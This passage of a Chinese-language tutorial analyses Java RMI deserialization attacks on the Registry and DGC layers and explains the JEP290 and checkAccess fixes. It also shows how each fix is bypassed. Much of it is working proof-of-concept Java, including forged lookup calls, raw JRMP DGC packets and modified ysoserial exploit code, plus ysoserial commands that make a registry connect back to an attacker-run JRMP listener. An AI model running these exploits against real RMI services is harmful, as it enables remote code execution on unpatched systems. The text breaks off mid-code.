        // new
        innerMap.put("value", "xxxx");
        // new

        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);

        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
        return obj;
    }

}
```

从CC1的poc代码可以看出，构建poc代码的一个关键点在于如何将我们的恶意对象包装为实现了Remote接口的类，CC1由于本身的特殊性，最终生成的对象实现了InvocationHandler接口，借助动态代理可以很容易的包装为任意类。其他没有利用AnnotationInvocationHandler的gadget链如何包装了，这里我们可以借鉴ysoserial的做法，它其实也是使用了Annot

ationInvocationHandler将我们生成的恶意对象又包装了一层。以URLDNS为例，poc代码如下:

```java
import org.example.payload.URLDNS;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Naming;
import java.rmi.Remote;
import java.util.HashMap;
import java.util.Map;

public class URLDNSAttackRegister {
    public static void main(String[] args) throws Exception {
        String url = "";
        HashMap obj = (HashMap) new URLDNS().getObject(url);

        Map<String, Object> map = new HashMap<String, Object>();
        map.put("DNSURL", obj);

        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Override.class, map);
        Remote proxyEvalObject = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, handler);
        String host = "rmi://192.168.110.146:1099/";
        Naming.rebind(host+"URLDNS", proxyEvalObject);
    }
}
```

##### lookup和unbind

在利用bookup和unbind时和bind以及rebind不一样的是只能传入String类型，以lookup为例，这里我们可以通过伪造连接请求进行利用，即自己实现一个lookup方法来进行攻击，先看一下原始的lookup：

```java
// Registry_Stub#lookup 
public Remote lookup(String var1) throws AccessException, NotBoundException, RemoteException {
        try {
            RemoteCall var2 = super.ref.newCall(this, operations, 2, 4905912898345647071L);

            try {
                ObjectOutput var3 = var2.getOutputStream();
                var3.writeObject(var1);
            } catch (IOException var18) {
                throw new MarshalException("error marshalling arguments", var18);
            }

            super.ref.invoke(var2);

            Remote var23;
            try {
                ObjectInput var6 = var2.getInputStream();
                var23 = (Remote)var6.readObject();
            } catch (IOException var15) {
                throw new UnmarshalException("error unmarshalling return", var15);
            } catch (ClassNotFoundException var16) {
                throw new UnmarshalException("error unmarshalling return", var16);
            } finally {
                super.ref.done(var2);
            }

            return var23;
        } catch (RuntimeException var19) {
            throw var19;
        } catch (RemoteException var20) {
            throw var20;
        } catch (NotBoundException var21) {
            throw var21;
        } catch (Exception var22) {
            throw new UnexpectedException("undeclared checked exception", var22);
        }
    }
```

参照该方法实现攻击代码

```java
import org.example.payload.CC1;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;


public class Client {

    public static void main(String[] args) throws Exception {

        InvocationHandler evalObject  = (InvocationHandler) CC1.getObject();
        // 这里我们手动构造了类似lookup的方法，不像bind等方法有参数类型的限制，也可以不用讲恶意对象包装为Remote
        Remote proxyEvalObject = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, evalObject);
        String host = "192.168.110.146";
        int port = 1099;


        Registry registry = LocateRegistry.getRegistry(host,port);

        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);

        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(proxyEvalObject);
        ref.invoke(var2);
    }
}
```

##### 使用ysoserial进行攻击

ysoserial提供了现成的exp进行攻击，利用了bind方法。使用该工具时，注意目标是否满足gadgat链的java版本要求和依赖要求

```shell
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 CommonsCollections1 "calc.exe"
```

#### <jdk8u121,<JDK7u13,<JDK6u141版本下RMI DGC层反序列化

##### DGC简介

> DGC 是 Java RMI (Remote Method Invocation) 框架中的一个重要部分，用于管理和回收远程对象的内存。
>
> 在 Java RMI 中，远程对象可以被多个客户端同时引用。DGC 的主要作用是在分布式环境中追踪这些远程对象的引用情况，确保当没有客户端再引用某个远程对象时，该对象可以被垃圾回收。
>
> **Lease (租约)**：
>
> - 每个客户端在使用远程对象时，会向服务器申请一个租约。租约是一个时间段，表示客户端声明在这个时间段内需要保持对该远程对象的引用。
> - 服务器将为每个远程对象维护一个引用计数器，这个计数器记录了当前有效的租约数量。
>
> **Renewal (续约)**：
>
> - 当租约快到期时，客户端需要定期向服务器续约，以延长对远程对象的引用。如果客户端不再需要引用远程对象，就不再续约。
>
> **Expiration (租约到期)**：
>
> - 如果客户端没有在租约到期前续约，服务器将认为客户端不再需要引用该远程对象，并减少该对象的引用计数器。
> - 当引用计数器归零时，意味着没有客户端再引用该远程对象，服务器可以将该远程对象标记为可回收，并在适当的时间由垃圾回收器（GC）回收。

有两个和DGC相关的重要方法：

> ### `dirty` 方法
>
> #### 作用：
>
> `dirty` 方法用于通知 DGC 服务，有新的客户端开始引用某个远程对象，或者现有的客户端希望续约它的租约。这可以看作是在分布式环境中声明“这个对象仍然需要保留”。
>
> #### 过程：
>
> 1. **客户端调用**： 当一个客户端第一次引用某个远程对象时，或者希望延长对该对象的引用时，会调用 `dirty` 方法。
> 2. **参数**：
>    - **对象引用（object references）**：客户端希望标记为活跃状态的远程对象。
>    - **租约时间（lease duration）**：客户端希望保持引用的时间长度。
> 3. **返回值**：
>    - 服务器会返回一个新的租约时间，表示服务器允许该引用保持的时间长度。
>
> ### `clean` 方法
>
> #### 作用：
>
> `clean` 方法用于通知 DGC 服务，某个客户端不再引用远程对象。这相当于告诉 DGC 服务“这个对象现在可以被垃圾回收”。
>
> #### 过程：
>
> 1. **客户端调用**： 当客户端不再需要某个远程对象时，会调用 `clean` 方法，以减少服务器上该对象的引用计数。
> 2. **参数**：
>    - **对象引用（object references）**：客户端不再需要引用的远程对象。
> 3. **清理过程**：
>    - 服务器收到 `clean` 请求后，会检查对象的引用计数。如果引用计数降为零，该对象将被标记为可回收，并最终由垃圾回收器清理。

RMI的DGC的续约和不再引用的消息传递也是基于JRMP协议的，而且根据上面的描述，实现相应功能的dirty和clean方法都用到了远程对象，他们是否会和之前一样，序列化后通过JRMP协议传递，引起反序列化问题呢？

**值得注意的是RMI中的Register和Server均可作为DGC的服务端。**

##### DGC反序列化分析

ysoserial的exploit.JRMPClient是基于DGC反序列化进行攻击的，我们启动它攻击Register，并在Register侧打上断点，分析调用栈。

```java
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections1 "calc.exe"
```



很熟悉的调用栈，DGCImpl_Skel的命名方式也很熟悉，查看其dispatch方法，和RegisterImpl_Skel的结构很相似，这里同样存在反序列化的操作

```java
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
        if (var4 != -669196253586618813L) {
            throw new SkeletonMismatchException("interface hash mismatch");
        } else {
            DGCImpl var6 = (DGCImpl)var1;
            ObjID[] var7;
            long var8;
            switch (var3) {
                case 0:
                    VMID var39;
                    boolean var40;
                    try {
                        ObjectInput var14 = var2.getInputStream();
                        var7 = (ObjID[])var14.readObject();
                        var8 = var14.readLong();
                        var39 = (VMID)var14.readObject();
                        var40 = var14.readBoolean();
                    } catch (IOException var36) {
                        throw new UnmarshalException("error unmarshalling arguments", var36);
                    } catch (ClassNotFoundException var37) {
                        throw new UnmarshalException("error unmarshalling arguments", var37);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.clean(var7, var8, var39, var40);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var35) {
                        throw new MarshalException("error marshalling return", var35);
                    }
                case 1:
                    Lease var10;
                    try {
                        ObjectInput var13 = var2.getInputStream();
                        var7 = (ObjID[])var13.readObject();
                        var8 = var13.readLong();
                        var10 = (Lease)var13.readObject();
                    } catch (IOException var32) {
                        throw new UnmarshalException("error unmarshalling arguments", var32);
                    } catch (ClassNotFoundException var33) {
                        throw new UnmarshalException("error unmarshalling arguments", var33);
                    } finally {
                        var2.releaseInputStream();
                    }

                    Lease var11 = var6.dirty(var7, var8, var10);

                    try {
                        ObjectOutput var12 = var2.getResultStream(true);
                        var12.writeObject(var11);
                        break;
                    } catch (IOException var31) {
                        throw new MarshalException("error marshalling return", var31);
                    }
                default:
                    throw new UnmarshalException("invalid method number");
            }
        }
    }
```

相对应的，我们去找DGCImpl_Stun中的dirty和clean方法，和之前的bind、unbind、lookup等方法的实现很类似，而且同样找到了writeObject

```java
public void clean(ObjID[] var1, long var2, VMID var4, boolean var5) throws RemoteException {
        try {
            RemoteCall var6 = super.ref.newCall(this, operations, 0, -669196253586618813L);

            try {
                ObjectOutput var7 = var6.getOutputStream();
                var7.writeObject(var1);
                var7.writeLong(var2);
                var7.writeObject(var4);
                var7.writeBoolean(var5);
            } catch (IOException var8) {
                throw new MarshalException("error marshalling arguments", var8);
            }

            super.ref.invoke(var6);
            super.ref.done(var6);
        } catch (RuntimeException var9) {
            throw var9;
        } catch (RemoteException var10) {
            throw var10;
        } catch (Exception var11) {
            throw new UnexpectedException("undeclared checked exception", var11);
        }
    }

    public Lease dirty(ObjID[] var1, long var2, Lease var4) throws RemoteException {
        try {
            RemoteCall var5 = super.ref.newCall(this, operations, 1, -669196253586618813L);

            try {
                ObjectOutput var6 = var5.getOutputStream();
                var6.writeObject(var1);
                var6.writeLong(var2);
                var6.writeObject(var4);
            } catch (IOException var20) {
                throw new MarshalException("error marshalling arguments", var20);
            }

            super.ref.invoke(var5);

            Lease var24;
            try {
                ObjectInput var9 = var5.getInputStream();
                var24 = (Lease)var9.readObject();
            } catch (IOException var17) {
                throw new UnmarshalException("error unmarshalling return", var17);
            } catch (ClassNotFoundException var18) {
                throw new UnmarshalException("error unmarshalling return", var18);
            } finally {
                super.ref.done(var5);
            }

            return var24;
        } catch (RuntimeException var21) {
            throw var21;
        } catch (RemoteException var22) {
            throw var22;
        } catch (Exception var23) {
            throw new UnexpectedException("undeclared checked exception", var23);
        }
    }
```

于是有相同的思路，我们利用dirty或clean发送恶意的序列化对象攻击Register。这里没有和bind、rebind类似的封装好的方法，可以方便我们直接发起一个DGC层的请求，之前利用lookup进行攻击的过程中，也遇到了类似的问题，我们自己实现了一个类似lookup的方法，可以序列化任意对象，其实还有另一种思路，尝试直接构建JRMP协议层数据包。我们看一下ysoserial的代码实现：

```java
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
        InetSocketAddress isa = new InetSocketAddress(hostname, port);
        Socket s = null;
        DataOutputStream dos = null;
        try {
            //建立一个socket通道，并为赋值
            s = SocketFactory.getDefault().createSocket(hostname, port);
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);
		   //读取socket通道的数据流
            OutputStream os = s.getOutputStream();
            dos = new DataOutputStream(os);
 	 	   //*******开始拼接数据流*********
            //以下均为特定协议格式常量
            //传输魔术字符：0x4a524d49（代表协议）
            dos.writeInt(TransportConstants.Magic);
            //传输协议版本号：2（就是版本号）
            dos.writeShort(TransportConstants.Version);
            //传输协议类型: 0x4c (协议的种类，好像是单向传输数据，不需要TCP的ACK确认)
            dos.writeByte(TransportConstants.SingleOpProtocol);
            //传输指令-RMI call：0x50 
            dos.write(TransportConstants.Call);

            @SuppressWarnings ( "resource" )
            final ObjectOutputStream objOut = new MarshalOutputStream(dos);

            objOut.writeLong(2); // DGC的固定读取格式
            objOut.writeInt(0);
            objOut.writeLong(0);
            objOut.writeShort(0);

            objOut.writeInt(1); // dirty
            objOut.writeLong(-669196253586618813L);
            
            objOut.writeObject(payloadObject);

            os.flush();
        }
        finally {
            if ( dos != null ) {
                dos.close();
            }
            if ( s != null ) {
                s.close();
            }
        }
    }
```

这里poc代码就不再给出，直接利用ysoserial进行攻击即可

##### 使用ysoserial进行攻击

```shell
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections1 "calc.exe"
```

#### jdk8u121<=version<jdk8u141

如果启动register服务的jdk版本为8u121，我们仍然使用之前的poc进行攻击，发现攻击失败，而且返回的异常信息和之前也不同。

这是低于8u121时返回的异常，按照我们之前的分析，我们在异常抛出之前就完成了反序列化，不影响我们的攻击：


这是8u121时返回的异常，RMI Registry侧输出了`ObjectInputFilter REJECTED: class sun.reflect.annotation.AnnotationInvocationHandler, array length: -1, nRefs: 6, depth: 2, bytes: 285, ex: n/a`



这里的异常信息中出现了`at java.io.ObjectInputStream.filterCheck(ObjectInputStream.java:1244)`，`filterCheck` 方法用于检查对象的序列化过滤器，以确保反序列化过程符合安全策略，很明显这里的反序列化的过程中，有些对象被过滤了，这是为什么呢？原因是在以下几个java版本开始，引入了JEP290，并为**RMI注册表**和**RMI分布式垃圾收集器**（DGC）设置了反序列化过滤器：

- Java™ SE Development Kit 8, Update 121 (JDK 8u121)
- Java™ SE Development Kit 7, Update 131 (JDK 7u131)
- Java™ SE Development Kit 6, Update 141 (JDK 6u141)

##### 修复方式JEP290

JEP290是来限制能够被反序列化的类，主要包含以下几个机制：

1. 提供一个限制反序列化类的机制，白名单或者黑名单。
2. 限制反序列化的深度和复杂度。
3. 为RMI远程调用对象提供了一个验证类的机制。
4. 定义一个可配置的过滤机制，比如可以通过配置properties文件的形式来定义过滤器。

JEP290需要手动设置，只有设置了之后才会有过滤，没有设置的话就还是可以正常的反序列化漏洞利用，所以之后介绍的针对Client端和Server端的某些序列化攻击没有被限制。

JEP可以通过以下几种方式设置：

1. JVM时的参数设置
2. 代码设置全局过滤器
3. 通过代码为特定的ObjectInputStream设置过滤器
4. 配置文件设置

##### jdk8u121中的为RMI的特定代码设置过滤器

jdk8u121中，是通过上述的方法3来修复RMI的反序列化漏洞，这里很粗略地分析一下这个过程。

`RegistryImpl`类的构造函数处可以看到，Register::registerFilter即是该版本新增的反序列化过滤器，这个过滤器后面再具体分析



继续追溯，UnicastServerRef的filter属性获取了这个过滤器




我们定位到之前攻击时返回的异常调用栈中的UnicastServerRef.oldDispatch




在我们触发反序列化操作的函数之前，有一行代码`this.unmarshalCustomCallData(var18);`，跟进去看，发现设置了反序列化过滤器


##### 绕过反序列化过滤器进行攻击

让我们看看这里发序列化过滤器的具体实现

```java
private static ObjectInputFilter.Status registryFilter(ObjectInputFilter.FilterInfo var0) {
    // 是否设置全局过滤器，默认为null
        if (registryFilter != null) {
            ObjectInputFilter.Status var1 = registryFilter.checkInput(var0);
            if (var1 != Status.UNDECIDED) {
                return var1;
            }
        }

        if (var0.depth() > (long)REGISTRY_MAX_DEPTH) {
            return Status.REJECTED;
        } else {
            Class var2 = var0.serialClass();
            if (var2 == null) {
                return Status.UNDECIDED;
            } else {
                if (var2.isArray()) {
                    if (var0.arrayLength() >= 0L && var0.arrayLength() > (long)REGISTRY_MAX_ARRAY_SIZE) {
                        return Status.REJECTED;
                    }

                    do {
                        var2 = var2.getComponentType();
                    } while(var2.isArray());
                }

                if (var2.isPrimitive()) {
                    return Status.ALLOWED;
                } else {
                    // 白名单
                    return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
                }
            }
        }
    }
```

简单来说，就是对反序列化的对象做了一个白名单校验，只允许反序列化下列类或者它们的子类：

1. String.clas
2. Number.class
3. Remote.class
4. Proxy.class
5. UnicastRef.class
6. RMIClientSocketFactory.class
7. RMIServerSocketFactory.class
8. ActivationID.class
9. UID.class

目前来说，并没有发现可以绕过这个过滤器的方法，也没有发现哪条gedget链是仅仅使用了上面这些类。

###### ysoserial.payload.JRMPClient

这里我们同样借助ysoserial这个工具来进行分析，ysoserial的payload模块下有一个JRMPClient。我们发现这个Payload很简洁，而且和其他Payload不同，简单浏览下恶意对象的生成代码，并没有命令执行的相关内容，那这个payload到底是做了什么呢？

```java
// 省略前面的参数处理代码
// ......
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
// 包装恶意对象
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
    Registry.class
}, obj);
```

后面包装恶意对象的部分暂时忽略，我们从UnicastRef#readExternal开始作为反序列化攻击的入口点，这里先介绍一下readExternal方法，它和readObject一样都是类的反序列化方法，和readObject的主要区别在于：

1. 属于java.io.Externalizable接口，readExternal和writeExternal
2. 开发者需要完全自己实现序列化和反序列化，也就是说没有类似于readObject中的defaultReadObject方法帮助开发者自动序列化属性，每一个需要序列化的属性都需要手动写入

```java
// UnicastRef#readExternal
// 反序列化函数是readExternal，不用考虑ref其他属性的反序列化，所有的逻辑全部在readExternal方法内
public void readExternal(ObjectInput var1) throws IOException, ClassNotFoundException {
        this.ref = LiveRef.read(var1, false);
    }

// LiveRef.read(var1, false)
public static LiveRef read(ObjectInput var0, boolean var1) throws IOException, ClassNotFoundException {
        TCPEndpoint var2;
        if (var1) {
            var2 = TCPEndpoint.read(var0);
        } else {
            var2 = TCPEndpoint.readHostPortFormat(var0);
        }

        ObjID var3 = ObjID.read(var0);
        boolean var4 = var0.readBoolean();
        LiveRef var5 = new LiveRef(var3, var2, false);
        if (var0 instanceof ConnectionInputStream) {
            ConnectionInputStream var6 = (ConnectionInputStream)var0;
            var6.saveRef(var5);
            if (var4) {
                var6.setAckNeeded();
            }
        } else {
            DGCClient.registerRefs(var2, Arrays.asList(var5));
        }

        return var5;
    }
```

反序列化的结果是，将一个LiveRef对象返回个UnicastRef对象的ref属性，我们在`LocateRegistry.getRegistry`这个方法中也可以看到类似的代码，这是为了与RMI Registry建立连接做准备，**与RMI Registery建立连接也是这个gadget的目的**，但是仅凭反序列化操作是无法达到我们的目的，我们拿这个Payload去打Register，以bind攻击为例：

```java
// RegistryImpl_Skel#dispatch
try {
    var11 = var2.getInputStream();
    var7 = (String)var11.readObject();
    // 反序列化恶意对象
    var8 = (Remote)var11.readObject();
} catch (IOException var94) {
    throw new UnmarshalException("error unmarshalling arguments", var94);
} catch (ClassNotFoundException var95) {
    throw new UnmarshalException("error unmarshalling arguments", var95);
} finally {
    // 发起DGC连接，此过程不再分析
    var2.releaseInputStream();
}

var6.bind(var7, var8);
```

所以，这个payload就是用来打Register，让它**发起一个DGC dirty请求**。

我们还需要讨论一个问题，这个Payload是否在JEP290的白名单内，我们将Payload分为两部分看，一个是前面恶意对象生成的部分，一个是后面包装恶意对象的部分。

对于恶意对象部分，由于UnicastRef采用的readExternal方法反序列化，它不会递归反序列化所有属性，所以只要UnicastRef可以通过白名单，即可绕过（这一点并不确定，还需后续研究补充），显然这个恶意对象是可以通过白名单的。

对于包装恶意对象的部分，之前我们采用AnnotationInvocationHandler包装恶意对象，会被反序列化过滤器拦截，我们看到上面payload的解决方案是使用RemoteObjectInvocationHandler包装恶意对象，这是因为该类：1. 实现了Remote接口，可以过白名单；2.实现了序列化接口；3。实现了InvocationHandler可以通过动态代理包装恶意对象。

对于恶意对象的封装其实还有几个方案：

* 不封装，类似于利用lookup和unbind攻击Register，自己改一个不限制传入参数类型的方法出来
* 找一个实现Remote接口的类，把恶意对象作为它的属性（RemoteObjectInvocationHandler本身就满足此要求，所以实际上可以不用动态代理封装）
* 自定义一个类（参见其他问题的补充）

###### ysoserial.exploit.JRMPListener

> 先阅读后文的对JRMP客户端反序列化攻击。

JEP290默认情况下，只为RMI Register和DGC的服务端开启了。此时就可以结合上述两个步骤打JEP290的Register。

##### 使用ysoserial进行攻击

先修改ysoserial的ysoserial.exploit.RMIRegistryExploit

```java
// exploit方法
// 将原来的Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);替换为下述代码
 Remote remote;
 if (payloadClass.isAssignableFrom(JRMPClient.class)){
    // 在JEP290以后，过滤了AnnationInvacationHandler
    // payloads.JRMPClient已经将恶意对象转为Remote
    remote = (Remote) payload;
}else {
    // 调用AnnationInvacationHandler封装了恶意对象，在动态代理转换为Remote
    remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
}
```

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections5 "calc.exe"
# 向Register发送恶意序列化对象，使其发起对恶意JRMP的连接
# 前一个ip和端口是要打的register，后面的host:port是开启JRMP恶意服务端的host和端口
java -cp ysoserial-all.jar ysoserial.payloads.RMIRegistryExploit JRMPClient 127.0.0.1 1099 127.0.0.1:1999
```

#### jdk8u141<=version<jdk8u231

##### 修复方式checkAccess

我们在jdk8u141下使用之前绕过JEP290的exp打register（**注意攻击的exp和register分别部署在两个服务器上**），抛出异常，而且register没有弹出计算机



而且这个异常很熟悉，在我们使用bind、rebind打register时也会出现，但是前面分析过这个异常并不会对我们的攻击产生影响，为什么jdk8u141后会发生变化呢，我们查看jdk8u141下的相关代码：

```java
// RegistryImpl_Skel#dispatch
// ......
// bind
switch (var3) {
    case 0:
        // 新增代码
        RegistryImpl.checkAccess("Registry.bind");

        try {
            var9 = var2.getInputStream();
            var7 = (String)var9.readObject();
            var80 = (Remote)var9.readObject();
        } catch (ClassNotFoundException | IOException var77) {
            throw new UnmarshalException("error unmarshalling arguments", var77);
        } finally {
            var2.releaseInputStream();
        }

        var6.bind(var7, var80);

        try {
            var2.getResultStream(true);
            break;
        } catch (IOException var76) {
            throw new MarshalException("error marshalling return", var76);
        }
// ......
```

发现与之前的代码相比，register侧对应bind、rebind和unbind**在反序列化之前**进行了IP检查，防止非本地server对register进行bind、rebind和unbind操作。

对于这个修复的绕过方式也很简单，由于这里的修复不涉及lookup和list方法，所以我们通过lookup或list攻击即可

##### 通过lookup绕过修复攻击

结合之前lookup攻击register和绕过JEP290：

* 开启恶意的JRMP服务器

* 将之前通过lookup攻击的恶意对象更换为ysoserial.payloads.JRMPClient，连接我们的恶意服务器

##### 使用ysoserial进行攻击

新增一个lookup方法，略微修改exploit和main方法

```java
public static void main(final String[] args) throws Exception {
    // 修改参数处理，可以选择lookup和bind进行攻击
    final String RMIMethod = args[0];
    final String host = args[1];
    final int port = Integer.parseInt(args[2]);
    final String command = args[4];
    Registry registry = LocateRegistry.getRegistry(host, port);
    final String className = CommonsCollections1.class.getPackage().getName() +  "." + args[3];
    final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(className);

    // test RMI registry connection and upgrade to SSL connection on fail
    try {
        registry.list();
    } catch(ConnectIOException ex) {
        registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
    }

    // ensure payload doesn't detonate during construction or deserialization
    exploit(registry, RMIMethod, payloadClass, command);
}

public static void exploit(final Registry registry, final String RMIMethod,
        final Class<? extends ObjectPayload> payloadClass,
        final String command) throws Exception {
    new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call() throws Exception {
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        String name = "pwned" + System.nanoTime();
        Remote remote;
        if (payloadClass.isAssignableFrom(JRMPClient.class)){
            // 在JEP290以后，过滤了AnnationInvacationHandler
            // 利用payloads.JRMPClient时直接讲恶意对象转为Remote
            remote = (Remote) payload;
        }else {
